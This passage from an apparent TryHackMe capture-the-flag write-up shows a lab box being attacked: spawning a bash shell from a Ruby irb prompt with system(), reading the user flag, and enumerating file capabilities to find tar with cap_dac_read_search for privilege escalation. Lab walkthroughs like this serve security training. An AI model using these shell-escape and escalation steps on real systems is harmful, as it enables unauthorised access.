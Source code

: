 Hmm?? What the shell?

**After googling, I found that this is a ruby shell (`irb`).**

**If I'm inside a ruby shell, we can call an OS command. In ruby, we can do this via `system()`, which is like python's `os.system()`.**
```
 irb(main):001:0> system('ls')
user.txt
=> true
```

I can execute command!

**How about spawn a bash shell?**
```
irb(main):003:0> system('/bin/bash')
hades@hell:~$ whoami;hostname;id;ip a
hades
hell
uid=1002(hades) gid=1002(hades) groups=1002(hades)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:11:56:4b:ec:e1 brd ff:ff:ff:ff:ff:ff
    inet 10.10.184.23/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3266sec preferred_lft 3266sec
    inet6 fe80::11:56ff:fe4b:ece1/64 scope link 
       valid_lft forever preferred_lft forever
```

We're `hades`!

**user.txt:**
```
hades@hell:~$ cat /home/hades/user.txt 
thm{Redacted}
```

# Privilege Escalation

## hades to root

By enumerating manaully, **I found the `tar` binary has a weird capabilities:**

**Capabilities:**
```
hades@hell:~$ getcap -r / 2>/dev/null
[...]
/bin/tar = cap_dac_read_search+ep
```

> `cap_dac_read_search` allows to **ignore the read permission bits** and does also allow to execute the system call `open_by_handle_at` which can be used to read outside a container chroot. (Source: [StackOverflow](https://stackoverflow.com/questions/48329731/is-cap-dac-override-a-superset-of-cap-dac-read-search))
